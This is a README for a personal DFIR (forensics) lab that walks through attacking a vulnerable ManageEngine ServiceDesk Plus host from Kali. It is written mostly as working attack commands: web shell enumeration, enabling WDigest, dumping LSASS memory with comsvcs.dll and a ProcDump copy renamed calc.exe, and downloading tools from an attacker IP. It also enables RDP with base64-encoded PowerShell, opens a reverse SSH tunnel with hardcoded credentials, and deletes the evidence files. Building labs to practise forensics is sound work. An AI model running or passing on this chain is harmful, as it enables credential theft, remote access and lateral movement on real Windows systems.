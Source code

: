 # Building My First DFIR Lab

## Lab Schema

![](LabSchema.png)


## Environment Setup
- Victim Machine: Windows 10 has:
    -  Vulnerable ManageEngine ServiceDesk Plus build 11303 found on the [ManageEngine Archives](https://archives.manageengine.com/service-desk/11303/)
    -  Sysmon for Windows Logging
    -  Wireshark
- Attacker Machine: Kali Linux
- Server: Windows 10
## Planning
- We will be dividing our lab to multiple parts
    - Part 1: Initial Access & Credentials Dumping
    - 

## Let's Go
### - Part 1:

#### a. Applying The Exploit:
![image](https://github.com/user-attachments/assets/d39fde33-273d-403c-9195-8dac52d64db1)

![image](https://github.com/user-attachments/assets/e7563550-22d8-4a1b-b8eb-b9b3761d9678)

#### b. Visiting wbsh.jsp

![image](https://github.com/user-attachments/assets/bb3eb98c-0af0-4dd2-ab0b-e478fed02f31)

#### c. Enum
  1. `whoami`
  2. `ipconfig /all`
  3. `systeminfo`
  4. `arp -a`
  5. `tasklist`
lsass.exe                      652 Services                   0     16,848 K
  
  6. `reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential`
#### e. `powershell.exe  Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'`
#### f. `C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 652 C:\Windows\Temp\logctl.zip full`
#### g. Download C:\Windows\Temp\logctl.zip
#### h. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')`
#### k. `C:\windows\temp\calc.exe -accepteula -ma 652 C:\Windows\Temp\logct2.dmp`
#### l. Delete both of them `Remove-Item -Path "C:\Windows\Temp\logct2.dmp", "C:\Windows\Temp\logctl.zip"`

### - Part 2: Lateral Movement & Stealing Data


#### a. Download ekern.exe 
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file.exe', 'C:\windows\temp\ekern.exe')
```

#### b. Check if RDP is Enabled?
```
Get-Service -Name TermService
```

#### c. Enable RDP using the Encoded Command
```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U2V0LVNlcnZpY2UgLU5hbWUgVGVybVNlcnZpY2UgLVN0YXJ0dXBUeXBlIEF1dG9tYXRpYw0KDQpTdGFydC1TZXJ2aWNlIC1OYW1lIFRlcm1TZXJ2aWNlDQoNClNldC1JdGVtUHJvcGVydHkgLVBhdGggJ0hLTE06XFN5c3RlbVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlclwnIC1OYW1lICdmRGVueVRTQ29ubmVjdGlvbnMnIC1WYWx1ZSAw')) | Invoke-Expression}"
```

#### d. Check Again 
```
Get-Service -Name TermService
```
#### e. Write the FXS.bat
```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGJhdGNoQ29udGVudCA9ICdlY2hvIHl8QzpcV2luZG93c1xUZW1wXGVrZXJuLmV4ZSAtc3NoIC1QIDQ0MyAtbCB2MWN0aW0gLXB3IENAbnRfRDNmM25kIC1SIDEyNy4wLjAuMTo0OTgwMDoxOTIuMTY4LjIwLjE0NzozMzg5IDE5Mi4xNjguMS4yJw0KJGJhdGNoRmlsZVBhdGggPSAnQzpcVXNlcnNcVmljdGltXERvY3VtZW50c1xGWFMuYmF0Jw0KU2V0LUNvbnRlbnQgLVBhdGggJGJhdGNoRmlsZVBhdGggLVZhbHVlICRiYXRjaENvbnRlbnQ=')) | Invoke-Expression}"
```

#### f. Execute FXS.bat == Establish SSH Connection
```
powershell.exe C:\Users\Victim\Documents\FXS.bat
```
#### g. Let's Start The RDP, when doing the RDP we will be Making 3 attemps (Success) 

